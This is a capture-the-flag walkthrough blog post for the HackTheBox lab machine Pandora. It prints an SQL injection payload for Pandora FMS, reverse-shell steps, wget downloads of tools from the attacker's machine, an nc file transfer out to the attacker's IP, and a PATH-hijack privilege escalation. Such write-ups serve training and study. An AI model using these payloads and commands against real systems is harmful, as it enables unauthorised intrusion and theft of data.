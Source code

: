 ```yaml
---
categories:
- CTF
layout: post
image:
  path: preview.png
media_subpath: /assets/posts/2025-06-25-pandora-hackthebox
tags:
- hackthebox
- windows
- kernel exploit
- exposed version
- CVE
title: Pandora @ HackTheBox
---
```


Pandorais a easy-difficulty [hackthebox.eu](https://www.hackthebox.eu) machine. Initial access is gained through enumerating a exposed UDP port of 161, running snmpbulkwalk on the exposed port reveals a username and password which allows for SSH access. The user flag is obtained by enumerating the Apache2 folder and finding a hidden domain, port-forwarding this domain to your local machine and using a CVE gains you access to the administrator panel. Uploading a malicious extension gains access to the 'Matt' account. To gain root, running linpeas exposes a hidden backup file. Transfering this file to your local machine and running strings on the executeable exposes a path injection vulnerability. But due to some-weird apache-ness, you will need to upload your own SSH public key in order to exploit this properly.

## User & Root Flag
This post is a walkthrough for Pandora, an Medium machine on [hackthebox.eu](https://www.hackthebox.eu). 

The initial scan (`nmap -Pn -n -sC -sV -p- 10.129.190.120`) shows the following results:
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

However, port 80 has nothing of use. (use -v because this scan takes ages)
The UDP port scan (though time-consuming) reveals port 161.
```
sudo nmap -sU 10.129.190.120 -v
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-23 02:04 BST
Initiating Ping Scan at 02:04
Scanning 10.129.190.120 [4 ports]
Completed Ping Scan at 02:04, 0.05s elapsed (1 total hosts)
Initiating UDP Scan at 02:04
Scanning Panda.htb (10.129.190.120) [1000 ports]
Discovered open port 161/udp on 10.129.190.120
```

## Daniel - user 1
because snmp outputs tons of information, download this to reduce the excess junk.
```
sudo apt install snmp-mibs-downloader
sudo nano /etc/snmp/snmp.conf
//comment mibs out
```
use snmpbulkwalk to enumerate port 161.
```
snmpbulkwalk -c public -v2c 10.129.190.120 . > snmpcheck
```

Once finished, we can use grep to see how many times a parameter has been issued.
```
grep -oP '::.*?\.' snmpcheck | sort | uniq -c | sort -n 
```
The main ones we care about are:
- hrSWRunParameters
- hrSWInstalled

Grepping out the file and searching for `hrSWRunParameters` eventually reveals a username and password.
```
cat snmpcheck | grep hrSWRunParameters
OST-RESOURCES-MIB::hrSWRunParameters.963 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p <REDACTED>'"

// you can also check to see what was happening by filtering out the task number (not required)
grep hrSWRun snmpcheck | grep 963 
```

Use these credentials on daniel's SSH service.
```
ssh daniel@10.129.190.120
```
Enumerating the Apache2 sites-available exposes a hidden domain under localhost.
```
daniel@pandora:/etc/apache2/sites-enabled$ cat ../sites-available/pandora.conf
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```

To access this, we have to first port-forward port 80 to our local machine.
```
ssh daniel@10.129.190.120 -L 8000:127.0.0.1:80
// explaination
First we take our port which is 8000 (this is the port we will visit)
127.0.0.1 is the local host on the victims machine where the service is running from
port 80 is the port we want to forward.
```
Once forwarded, visit `http://localhost:8000`
Doing some research on pandorafms reveals an unauthenticated SQL injection attack which gains administrator access.<br>
`https://github.com/akr3ch/CVE-2021-32099`<br>

Copying and executing this gains administrator access.
```
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a' UNION SELECT 'a',1,'id_usuario|s:5:"admin";' as data FROM tsessions_php WHERE '1'='1
```
![admin](admin.PNG)

## Matt - user 2
Once admin access has been established, there are different ways you can get internal access, either by using another CVE (authenticated) or by uploading your own php reverse shell.<br>
To upload your own php reverse shell follow these steps:
```
1 - Make a PHP reverse shell (pentest monkey works fine)
2 - Zip it (important)
3 - Visit http://localhost:8000/pandora_console/index.php
4 - go to Admin Tools → Extension Manager → Extension Uploader
5 - Upload your zipped reverse shell.
6 - set up netcat listener (nc -lvnp 1234)
6 - Trigger shell by visiting http://localhost:8000/pandora_console/extensions/rev.php
```

If everything goes well, you now have access to matt's account.
As matts shell is not stable, lets upgrade it.
```
< INSIDE MATTS SHELL >
[Shell] python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl-z
stty raw -echo; fg
[Shell] export TERM=xterm
```

Once you have upgraded matts shell, grab his user flag.

## Root
upload linpeas to the machine and run it
```
[you] python3 -m http.server 80
[victim] wget http://your_ip:80/linpeas.sh
[victim] chmod +x linpeas.sh
[victim] .\linpeas.sh
```
Eventually you find that netcat is installed and a hidden backup folder exists at `/usr/bin/pandora_backup`<br>
Because you can't use strings on the machine, we have to transfer it off.
Theres different ways you can do this i.e. wget etc, but I'm using nc for simplicity.
```
[VICTIM]nc your_ip 9002 < /usr/bin/pandora_backup
[YOU]nc -lvnp 9002 > pandora_backup
```

Run strings on the downloaded file and you'll spot a command
```
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
```
Because this uses a relative path and not an absoulte path i.e. (/usr/bin/tar), it's vulnerable to a PATH injection attack.
But before we can do that, we have to upload our own SSH public key due to apache.
```
[YOU] ssh-keygen -f matt
[victim] mkdir .ssh
[victim] wget your_ip:80/matt.pub
[victim] mv matt.pub authorized_keys
[YOU] ssh -i matt matt@10.129.190.120

// if this doesnt work
[victim] chmod 700 ~/.ssh
[victim] chmod 600 ~/.ssh/authorized_keys
```

Export your path and run the command to gain root.
```
matt@pandora:~$ which tar
/usr/bin/tar
matt@pandora:~$ echo /bin/bash > tar
chmod +x tar

// path hijack
export PATH=/home/matt:$PATH
matt@pandora:~$ which tar
/home/matt/tar

matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:~# 
```